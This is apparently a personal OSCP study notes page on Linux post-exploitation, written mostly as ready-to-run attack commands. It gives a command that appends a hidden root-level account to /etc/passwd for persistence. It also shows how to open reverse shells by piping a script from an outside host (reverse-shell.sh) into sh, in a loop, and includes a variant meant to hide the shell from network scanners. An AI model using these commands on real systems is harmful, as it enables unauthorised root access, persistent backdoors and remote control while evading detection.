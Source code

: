 ```yaml
---
title: Linux Cybersec Notes
author:
  name: Wrathdemon
  link: https://github.com/prabhatjoshi321
date: 2022-01-07 15:40:00 +0800
categories: [OSCP, Instructions, Notes]
tags: [writing]    # TAG names should always be lowercase
---
```


### For binary specific tasks
```
sudo -l

see for the sudo entries for the user that sre allowed to execute binaries as sudo and check for entries on

	https://gtfobins.github.io/

search for that particular binary and use the suggested method there.

```

#### Persistence can be obtained by making entries in /etc/passwd file, do the following
```

echo "realize:drkhtmpyc4URU:0:0:root:/root:/bin/bash" >> /etc/passwd

This will give persistence via ssh as user realize while password being 1234
```

### reverse shell techniques

##### Automated Method
```
on local machine
fire up netcat with tags -lvnp and port [any]

	nc -lvnp [port]

on attack machine execute

	https://reverse-shell.sh/[local-ip]:[local-port]

for recursive call, do this

	while true; do curl https://reverse-shell.sh/[local-ip]:[local-port] | sh; done

for no traces on network scanners or any trace od some shell open, do this

	sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit

this will exit the shell while running the script recursively in background

this will give a reverse shell, it works as someone has hosted a website with raw ascii bash script containing 4 reverse shell methods.
- python2
- netcat
- perl
- sh

```